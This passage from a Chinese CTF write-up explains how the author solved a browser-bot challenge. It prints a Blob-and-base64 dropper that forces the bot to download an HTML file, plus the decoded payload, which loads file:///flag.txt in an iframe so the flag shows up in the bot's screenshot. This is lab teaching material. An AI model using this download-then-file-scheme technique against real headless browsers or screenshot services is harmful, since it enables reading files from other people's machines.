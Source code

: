 ```js

try { await Promise.race([ visit(), sleep(10000) ]); } catch(e) { console.log(e) };
await browser.close();
```

首先访问`http://openresty:8080/`，将flag存入`localStorage`，接着访问我们的url，等待5s后截图发给`reports/add`接口，这个接口是需要带上`Authorization: Bearer flag`才能访问。

比赛的时候一直想着可能是XSS，一直在网上找`Konva`可能的利用点，还得绕CSP🤬

而且`api`接口对上传数据的类型进行严格的限制，感觉也不好利用。

`localStorage`也是遵循同源策略的，就算能成功控制页面，在CSP的限制下要读取`localStorage`实在太难了。

或许题目用意不是想让我们去读取`localStorage`

实际上我们既然能控制浏览器访问任意URL，就不必局限于http协议，完全可以指定其他`Scheme`，比如`file:///flag.txt`直接去读取flag，但是由于跨域问题（file协议的origin默认为null），去`/reports/add`提交截图需要从`localStorage`拿取flag，此时跨域拿不了flag就提交不了截图了，也就无法回显到我们这边。

那么我们能不能在自己的服务器上放一个页面，让bot去请求我们的页面，页面使用file协议读取flag，再返回给服务器呢？显然不行，不然任何网站都能读取我们主机上的文件了😱

外部不能用`file`协议读取文件，但本地html是可以通过`file`协议读取文件的

可以利用`data`协议往本地保存html文件，再通过这个html文件使用`file`协议读取flag

（data不能访问file，但file能访问file）

浏览器下载的文件默认在当前用户的下载文件夹下，在Linux上就是`/root/Downloads/`

但是这个文件名我们无法控制，好像是随机生成的（搭环境快吐了，一直报错，下载下来是文件名是`Unconfirmed xxx`，Linux上验证不了😭）

```html
<body></body>
<script>let blob = new Blob([atob("PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZmxhZy50eHQiPjwvaWZyYW1lPgo8c2NyaXB0PgogICAgc2V0VGltZW91dCgoKSA9PiB7CiAgICAgICAgbGV0IHQgPSA1MDAwICsgKE1hdGgucmFuZG9tKCkgKiAyIC0gMSkgKiAxMDAKICAgICAgICBzZXRUaW1lb3V0KCgpID0+IHsKICAgICAgICAgICAgZG9jdW1lbnQubG9jYXRpb24uaHJlZiA9ICJodHRwOi8vb3BlbnJlc3R5OjgwODAvIgogICAgICAgIH0sIHQpCiAgICB9KQo8L3NjcmlwdD4=")], {type: 'text/html'});
let a = document.createElement("a");
a.download = "flagger.html";
a.href = URL.createObjectURL(blob);
document.body.appendChild(a);
a.dispatchEvent(new MouseEvent('click', {bubbles: true, cancelable: true}));</script>
```

atob的内容是下面html经过base64编码的，将上面这个html保存在我们的服务器上

利用Blob对象存储我们要保存的html文件，再通过触发点击事件保存文件，可以指定文件名

```html
<iframe src="file:///flag.txt"></iframe>
<script>
    setTimeout(() => {
        let t = 5000 + (Math.random() * 2 - 1) * 100
        setTimeout(() => {
            document.location.href = "http://openresty:8080/"
        }, t)
    })
</script>
```
